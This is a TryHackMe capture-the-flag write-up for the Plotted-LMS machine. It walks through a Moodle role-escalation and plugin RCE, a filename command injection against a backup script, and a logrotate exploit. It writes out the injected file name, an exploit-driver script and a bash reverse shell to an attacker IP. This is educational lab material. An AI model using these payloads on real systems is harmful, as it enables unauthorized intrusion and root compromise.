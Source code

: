 ```yaml
---
title: Plotted-LMS TryHackMe Writeup
tags: [moodle,writeup,logrotate,tryhackme,rce,linux]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/2.png)

## Enumeration
I checked all HTTP services, but they all showed the same **Apache (Ubuntu)** default page.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/3.png)

We run **linpeas** tool and enumerate various files and directories interesting, but are *rabbits hole*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/4.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/5.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/6.png)

We enumerate **Moodle** directory:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/7.png)

We access the directory and see several courses available.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/8.png)


## Exploitation
We create an account, we see that the application tells us that the email has to be "*@plotted.thm*" (we list domain) and we authenticate with the account.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/9.png)

We enumerate the possible **Moodle 3.9** version:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/10.png)

But the exploits I found for RCE didn't work for me.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/11.png)

I also tested the *XSS vulnerability* published in previous versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/12.png)

Working! But neither user has ever logged in, so I ruled out the possibility of session cookie theft.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/13.png)


[Moodle RCE #CVE-2020-14321 PoC](https://www.youtube.com/watch?v=BkEInFI4oIU)

I did the same steps as in the video, although I summarize it:

We signed up for the course:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/14.png)

We enter the "*participants*" section, click on "*Enrol Users*", search for our user and intercept the save request with **Burp**.

We change the value of "*roletoassign=*" to "*1*" (1 = MANAGER):

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/15.png)

We see that we are now "*Manager*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/16.png)

We access the profile of the user "*John Doe*", we check that we can now use the **SSO** that **Moodle** incorporates, this would allow us to access the administration panel as if we were the user "*John Doe*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/17.png)

In this part, we will modify the values of the "*Manager*" role to enable and install a malicious plugin and execute commands (It is very well explained in the video above, so I will be brief).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/18.png)

Click on install plugin:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/19.png)

Upload the file "*rce.zip*" and install it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/20.png)

We complete the installation and look for the file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/21.png)

#### PoC Moodle RCE
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/22.png)

We intercept with **Burp**, put a **netcat** listening on port *443* and run our payload to gain access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/23.png)

#### Reverse shell
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/24.png)


## Privilege Escalation (Plot_admin user)
We did a file recognition, listed several credentials but none of them worked for me.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/25.png)

We looked for files and found that the user "*plot_admin*" has a script "*backup.py"* that we can read.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/26.png)

We open another session (yes, I know, the machine is super slow....) and run "**pspy**", we check that a backup of moodle is being performed in the hidden directory of the user "*plot_admin*"... This makes me suspect that the Python script is being executed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/27.png)

Checking the python script and that we only have access to the path "*moodle_location*", we would have to try abusing a *command injection* by means of a file name.

```bash
cd /var/www/uploadedfiles/filedir/
touch './"";$(chmod 777 *)'
```

We execute the above commands and wait for the scheduled task to be executed. After that, we will have write and read access to the files in the "plot_admin" directory:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/28.png)

We create SSH keys, but if we try to use the "*id_rsa*" file it asks for the user's password, so we put our public key in the "*authorized_keys*" file and connect via **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/29.png)

## Privilege Escalation
We re-launch pspy with the user "*plot_admin*", we quickly see that it is running "**logrotate**" and an **SSH** connection to the root user, executing the contents of "*/etc/bash_completion*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/30.png)

#### Exploit: [whotwagner/logrotten](https://github.com/whotwagner/logrotten)

We check that the machine has "**gcc**", transfer the exploit and compile it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/31.png)

As it was likely to have to be repeating the execution of the exploit and in each execution I had to delete and rename the backup, I generated a script to run every few minutes.

```bash
#!/bin/bash

rm .logs_backup
mv .logs_backup2/ .logs_backup
cp /home/plot_admin/.logs_backup/moodle_access.1 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p /tmp/m3file.sh /home/plot_admin/.logs_backup/moodle_access;ls /etc/bash_completion.d
```

#### Content m3file.sh file:
```
bash
#!/bin/bash

bash -i >& /dev/tcp/10.2.116.223/5555 0>&1
```

We put a **netcat** listening and run the script, we see that the file "*moodle_access*".... has been created.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/32.png)

We will obtain a root session and will be able to read the file "*/root/root.txt*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Plotted-LMS/33.png)

*PD: Thanks to **0x1dz** for the help with the hints.*




